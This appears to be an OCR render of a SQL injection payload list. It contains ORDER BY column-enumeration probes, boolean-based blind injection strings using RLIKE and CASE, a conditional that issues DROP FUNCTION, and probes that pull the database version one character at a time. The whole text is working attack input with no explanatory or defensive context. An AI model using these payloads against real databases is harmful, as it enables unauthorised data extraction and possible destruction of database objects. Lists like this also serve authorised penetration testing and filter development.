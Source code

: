            ORDER BY 25# 
           ORDER BY 26# 
           ORDER BY 27# 
           ORDER BY 28# 
           ORDER BY 29# 
           ORDER BY 30#
           ORDER BY 31337#
           ORDER BY 1 
           ORDER BY 2 
           ORDER BY 3 
           ORDER BY 4 
           ORDER BY 5 
           ORDER BY 6 
           ORDER BY 7 
           ORDER BY 8 
           ORDER BY 9 
           ORDER BY 10 
           ORDER BY 11 
           ORDER BY 12 
           ORDER BY 13 
           ORDER BY 14 
           ORDER BY 15 
           ORDER BY 16 
           ORDER BY 17 
           ORDER BY 18 
           ORDER BY 19 
           ORDER BY 20 
           ORDER BY 21 
           ORDER BY 22 
           ORDER BY 23 
           ORDER BY 24 
           ORDER BY 25 
           ORDER BY 26 
           ORDER BY 27 
           ORDER BY 28 
           ORDER BY 29 
           ORDER BY 30 
           ORDER BY 31337 
           RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
           RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
          IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--
          IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--
          %' AND 8310=8310 AND '%'='
          %' AND 8310=8311 AND '%'='
           and (select substring(@@version,1,1))='X'
           and (select substring(@@version,1,1))='M'
           and (select substring(@@version,2,1))='i'
           and (select substring(@@version,2,1))='y'
           and (select substring(@@version,3,1))='c'
           and (select substring(@@version,3,1))='S'
           and (select substring(@@version,3,1))='X'
      